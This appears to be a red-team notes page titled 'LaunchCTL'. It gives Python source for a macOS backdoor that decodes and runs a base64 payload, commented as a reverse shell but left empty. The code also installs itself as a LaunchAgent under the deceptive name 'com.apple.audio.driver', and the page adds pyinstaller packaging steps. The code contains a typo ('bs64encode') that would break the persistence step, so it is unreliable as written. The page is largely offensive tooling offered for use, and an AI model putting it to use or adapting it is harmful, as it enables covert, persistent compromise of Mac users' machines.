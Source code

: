# LaunchCTL

```python
#!/usr/bin/env python
import base64
import ctypes
import os

# Base64 encoded one-liner bash reverse shell
PAYLOAD = ""

libc = ctypes.CDLL(None)

def execute_command(command):
    execute = libc.system(command.encode())
    return execute

def decode_payload():
    decoded = base64.b64decode(PAYLOAD).decode('utf-8')
    return decoded

def persistence():
    plist_content = """<?xml version="1.0"?>
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.audio.driver</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/bin/python</string>
        <string>-c</string>
        <string>import base64,sys;exec(base64.b64decode('{}').decode())</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <false/>
</dict>
</plist>"""

    with open(__file__, 'r') as f:
        content = base64.bs64encode(f.read().encode()).decode()
    plist_path = os.path.expanduser("~/Library/LaunchAgents/com.apple.audio.driver.plist")

    with open(plist_path, 'w') as f:
        f.write(plist_content.format(content))

    os.system(f"launchctl load {plist_path}")

    return True

def main():
    command = decode_payload()
    execute_command(command)

if __name__ == "__main__":
    main()
```

Compile this in Mac OSX system.

```
$ pyinstaller -F payload.py
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/OSX/Backdoors/LaunchCTL|Maintaining Access: OSX Persistence LaunchCTL]]

### YouTube

- [Cybersec Revolution: Fileless Malware on Mac - Coding & Bypassing Apple Security (Red Teaming Simulation Demo)](https://www.youtube.com/watch?v=CX6ILKPUkJ0)